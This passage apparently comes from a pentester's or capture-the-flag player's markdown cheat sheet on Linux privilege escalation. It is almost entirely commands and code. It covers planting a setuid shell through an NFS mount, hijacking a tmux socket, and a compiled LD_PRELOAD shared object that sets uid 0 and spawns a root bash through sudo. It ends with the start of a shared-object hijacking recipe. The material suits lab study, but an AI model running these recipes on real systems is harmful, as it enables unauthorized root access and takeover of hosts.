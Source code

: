 ```sh
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

- Hijacking Tmux : 

```sh
tmux -S /shareds new -s debugsess
chown root:devs /shareds
tmux -S /shareds
```


### Linux Internals-based Privilege Escalation


**LD_PRELOAD**
#LD_PRELOAD

- Exploit:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

- Compile : 
```sh
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

- Run:
```sh
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart #Apache no password root
```

**Shared Object Hijacking**
#Shared_Object_Hijacking

```sh
 readelf -d payroll  | grep PATH
 #payroll file with bit Suid
```

- Custom LIb : 
```sh
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
ldd payroll
```
